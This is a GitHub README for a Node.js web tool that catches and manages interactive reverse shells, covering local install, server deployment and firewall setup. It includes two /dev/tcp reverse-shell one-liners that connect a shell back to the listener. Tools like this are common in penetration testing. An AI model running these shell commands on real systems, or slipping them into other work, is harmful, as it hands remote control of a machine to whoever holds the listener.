

# Reverse Shell Online

Fully interactive TTY Reverse Shell on web interface

- Can handle multiple session
- Multi-user support
- Download/Upload feature

# Demo



# Install locally

Install dependendies: ```npm i```

Start project with ```npm start```

ENV Vars:
```
PORT_HTTP=3000
PORT_TCP=1337

Example to start server on HTTP: 8080 & TCP: 6666
PORT_HTTP=8080 PORT_TCP=6666 node index.js
```

Access HTTP server: ```http://localhost:8080```

Example command to spawn a shell:

```sh -i >& /dev/tcp/127.0.0.1/6666 0>&```

# Deploy on a server

## Simple install

```sh
git clone https://github.com/Eteckq/simplershell.git;
npm i;
PORT_HTTP=5555 PORT_TCP=6666 SERVER_ADDRESS=YOUR_SERVER_ADDRESS node index.js
```

Env var ```SERVER_ADDRESS``` is facultative

Then, you need to allow configured port (5555 & 6666 here)

(with ufw)
```
sudo ufw allow 5555,6666
```

And access it with http://YOUR_SERVER_IP:5555

You can test your deployement by spawning a shell:
```
sh -i >& /dev/tcp/YOUR_SERVER_IP/6666 0>&
```

## Behind a reverse proxy

Steps are basically the same, you just need to enable WebSockets for HTTP.

